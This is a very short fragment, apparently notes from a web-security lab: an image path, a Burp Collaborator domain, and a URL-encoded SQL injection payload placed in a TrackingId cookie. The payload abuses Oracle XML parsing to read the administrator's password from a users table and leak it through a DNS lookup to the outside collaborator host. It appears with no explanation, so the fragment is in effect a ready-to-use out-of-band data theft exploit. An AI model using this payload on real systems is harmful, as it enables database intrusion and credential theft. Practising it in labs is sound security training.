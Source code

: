 qhb4k813xv26e8crxtrpdwrwhnneb4zt.oastify.com

TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.qhb4k813xv26e8crxtrpdwrwhnneb4zt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
